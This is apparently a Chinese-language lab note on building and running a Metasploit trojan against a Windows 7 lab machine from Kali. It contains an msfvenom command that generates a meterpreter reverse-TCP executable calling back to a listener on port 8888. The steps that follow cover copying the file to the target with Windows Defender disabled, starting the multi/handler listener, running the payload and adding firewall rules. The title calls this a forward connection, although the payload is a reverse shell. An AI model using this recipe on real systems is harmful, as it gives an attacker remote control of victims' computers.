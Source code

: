 # day2:使用MSF工具 正向连接

目标机为vulnsrack-win7 攻击机为kali

1. 在kali上创建一个木马

```msf
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.76.141 LPORT=8888 -f exe -o payload.exe
```

2.  投放病毒

   将payload.exe移动至主计算机及win7（关闭windows defender）

   查看端口是否打开

   ```
   netstat -tnlup
   ```

3. 进入msf

   ```
   use exploit/multi/handler
   ```

   如果端口不对就 set LPORT 8888

4. 用win7打开payload.exe

   回到kali查看监听结果是否回显

5. 打开高级安全windows defender防火墙 入站规则 

   新建规则 并选择端口

   可在出站规则中找到8888no

